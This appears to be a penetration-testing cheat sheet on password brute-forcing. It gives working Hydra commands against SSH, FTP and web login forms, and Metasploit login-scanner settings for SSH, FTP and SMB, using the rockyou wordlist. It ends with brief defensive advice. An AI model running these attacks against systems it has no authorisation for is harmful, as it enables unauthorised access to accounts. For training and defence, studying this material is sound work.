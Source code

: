    
# **Brute Forcing**

## **1. Understanding Brute Force Attacks**

Brute forcing is the process of systematically guessing passwords or credentials to gain access to a system. It can be done using:

- **Wordlists** (Precompiled lists of common passwords)
- **Dictionary Attacks** (Using wordlists to attempt login)
- **Brute Force Attacks** (Trying every possible combination)

---

## **2. Wordlists for Brute Forcing**

Kali Linux and Metasploit contain built-in wordlists for brute-force attacks:

|Wordlist|Location|
|---|---|
|**RockYou.txt**|`/usr/share/wordlists/rockyou.txt.gz` (Needs to be unzipped)|
|**Metasploit Unix Passwords**|`/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`|
|**Metasploit Common Credentials**|`/usr/share/metasploit-framework/data/wordlists/common_users.txt`|

To extract `rockyou.txt`:

gzip -d /usr/share/wordlists/rockyou.txt.gz

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

---

## **3. Brute Forcing with Hydra**

Hydra is a fast password-cracking tool for online brute force attacks.

### **Brute Force SSH with Hydra**

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target-ip> -t 4

```
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://<target-ip> -t 4
```

- `-L users.txt` → List of usernames
- `-P rockyou.txt` → Password list
- `-t 4` → Number of parallel threads

### **Brute Force FTP with Hydra**

hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>
```

- `-l admin` → Single username

### **Brute Force Web Login (HTTP-POST Form)**

hydra -L users.txt -P passwords.txt <target-ip> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

```
hydra -L users.txt -P passwords.txt <target-ip> http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"
```

- `F=incorrect` → Failure message on wrong login

---

## **4. Brute Forcing with Metasploit**

Metasploit has **auxiliary modules** for brute-force attacks:

### **SSH Brute Force with Metasploit**

msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 4
run

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE /usr/share/wordlists/rockyou.txt
set THREADS 4
run
```

### **Brute Force FTP**

use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run

```
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target-ip>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```

### **Brute Force SMB**

use auxiliary/scanner/smb/smb_login
set RHOSTS <target-ip>
set SMBUser administrator
set PASS_FILE passwords.txt
run

```
use auxiliary/scanner/smb/smb_login
set RHOSTS <target-ip>
set SMBUser administrator
set PASS_FILE passwords.txt
run
```

---

## **5. Preventing Brute Force Attacks**

To protect against brute-force attacks:

- Use **strong, complex passwords**
- Enable **account lockouts** after multiple failed attempts
- Implement **multi-factor authentication (MFA)**
- Restrict login attempts using **fail2ban**
- Change default ports for services like **SSH**